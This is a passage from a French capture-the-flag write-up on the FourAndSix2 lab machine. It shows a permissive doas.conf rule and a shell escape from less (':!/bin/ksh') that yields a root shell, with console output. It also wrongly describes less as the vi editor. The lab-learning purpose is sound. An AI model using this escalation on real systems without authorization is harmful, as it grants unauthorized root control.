 Le fichier de configuration ```/etc/doas.conf``` se révèle être particulièrement intéressant. Sur les systèmes BSD comme FourAndSix, [doas](https://man.openbsd.org/doas.conf) est une alternative jugée plus simple et plus sécurisée que son alter-ego [sudo](https://en.wikipedia.org/wiki/Sudo). Ce fichier permet d'accorder des droits aux utilisateurs, afin de lancer des commandes en tant qu'un autre utilisateur (généralement root).

```console
fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel)

fourandsix2$ cat /etc/doas.conf
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root
```

La première ligne du fichier ```doas.conf``` signifie que l'utilisateur ```user``` peut exécuter la commande ```doas /usr/bin/less /var/log/authlog``` en tant que root, et de visualiser le contenu du fichier ```authlog``` dans l'éditeur vi.

Ça tombe bien ! L'article [_Escaping Restricted Linux Shells_](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells) posté sur le site du SANS Institute par Doug Stilwell donne une astuce très précieuse : il est possible d'obtenir un shell à partir d'un éditeur de texte tel que vi ou vim. Ça tombe bien, vi est l'un des seuls binaires que l'on peut appeler sur notre shell restreint. Une fois à l'intérieur de l'éditeur, la commande ```:!/bin/ksh``` nous permet d'obtenir un shell root digne de ce nom !

```console
fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel)

fourandsix2$ doas /usr/bin/less /var/log/authlog 

Dec  1 19:44:23 fourandsix2 sshd[6343]: Failed password for root from 192.168.56.102 port 36456 ssh2
Dec  1 19:44:23 fourandsix2 sshd[53394]: Failed password for root from 192.168.56.102 port 36448 ssh2
Dec  1 19:44:24 fourandsix2 sshd[9463]: Failed password for root from 192.168.56.102 port 36460 ssh2
Dec  1 19:44:24 fourandsix2 sshd[74747]: Failed password for root from 192.168.56.102 port 36458 ssh2
Dec  1 19:44:24 fourandsix2 sshd[94647]: Failed password for root from 192.168.56.102 port 36440 ssh2
Dec  1 19:44:24 fourandsix2 sshd[78045]: Failed password for root from 192.168.56.102 port 36444 ssh2
Dec  1 19:44:24 fourandsix2 sshd[6343]: Failed password for root from 192.168.56.102 port 36456 ssh2
Dec  1 19:44:24 fourandsix2 sshd[53394]: Failed password for root from 192.168.56.102 port 36448 ssh2
Dec  1 19:44:24 fourandsix2 sshd[51957]: Failed password for root from 192.168.56.102 port 36432 ssh2
Dec  1 19:44:24 fourandsix2 sshd[1361]: Failed password for root from 192.168.56.102 port 36434 ssh2
Dec  1 19:44:24 fourandsix2 sshd[66838]: Failed password for root from 192.168.56.102 port 36454 ssh2
Dec  1 19:44:24 fourandsix2 sshd[17627]: Failed password for root from 192.168.56.102 port 36450 ssh2

:!/bin/ksh

fourandsix2#

fourandsix2# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
```
